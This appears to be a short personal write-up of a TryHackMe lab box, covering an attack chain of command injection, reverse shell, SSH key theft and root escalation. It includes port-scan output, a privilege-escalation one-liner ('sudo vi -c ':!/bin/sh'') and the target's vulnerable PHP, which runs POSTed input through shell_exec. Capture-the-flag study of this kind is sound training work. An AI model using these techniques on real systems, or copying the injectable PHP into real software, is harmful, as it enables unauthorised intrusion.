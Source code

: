 ```yaml
---
date: 2025-01-30
description: Linux Command Injection to RCE with some hash cracking
platform: TryHackMe
categories: Web, PrivEsc, Linux
tags:
  - command-injection/linux
  - broken-access-control
  - ssh
  - gtfobins
duration: 50 minutes
---
```



# Attack Chain
```
1. fuzz for php files > home.php bypass needing to authenticate
2. command execution to reverse shell
3. privesc into charlie by downloading sshkey
4. privesc into root by running vi with sudo 
    sudo vi -c ':!/bin/sh' /dev/null
```
> flag run root.py using the leaked secret key in /var/www/html

scan
```txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

http://10.10.110.3 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.110.3], PasswordField[password]

- home.php fuzzed 
```

`home.php`
```php
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>
```